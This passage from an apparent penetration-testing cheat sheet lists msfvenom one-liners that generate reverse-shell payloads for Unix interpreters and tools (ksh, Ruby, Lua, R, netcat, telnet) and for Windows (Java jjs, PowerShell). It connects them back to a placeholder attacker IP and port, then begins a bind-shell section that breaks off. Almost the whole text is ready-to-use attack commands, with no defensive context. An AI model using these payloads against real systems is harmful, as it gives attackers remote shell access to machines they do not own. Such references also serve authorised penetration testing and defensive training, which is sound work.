 `$ msfvenom -p cmd/unix/reverse_ksh lhost=<IP> lport=<PORT>`

- **Ruby**

`$ msfvenom -p cmd/unix/reverse_ruby lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_ruby_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **Java**

`$ msfvenom -p cmd/unix/reverse_jjs lhost=<IP> lport=<PORT>`

- **Lua**

`$ msfvenom -p cmd/unix/reverse_lua lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_ncat_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **Tclsh**

`$ msfvenom -p cmd/unix/reverse_tclsh lhost=<IP> lport=<PORT>`

- **R**

`$ msfvenom -p cmd/unix/reverse_r lhost=<IP> lport=<PORT>`

- **Netcat**

1. **OpenBSD Method**

`$ msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<PORT>`

2. **Traditional GNU Method**

`$ msfvenom -p cmd/unix/reverse_netcat_gaping lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/pingback_reverse lhost=<IP> lport=<PORT>`

- **Telnet**

`$ msfvenom -p cmd/unix/reverse_ssl_double_telnet handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

##### 2.4.1.2 - Windows

- **Java**

`$ msfvenom -p cmd/windows/jjs_reverse_tcp lhost=<IP> lport=<PORT>`

- **Powershell**

`$ msfvenom -p cmd/windows/reverse_powershell lhost=<IP> lport=<PORT> -f raw -o shell.bat`

#### 2.4.2 - Bind Shells

##### 2.4.2.1 - Linux

- **Awk**

`$ msfvenom -p cmd/unix/bind_awk lport=<PORT>`

- **Busybox**
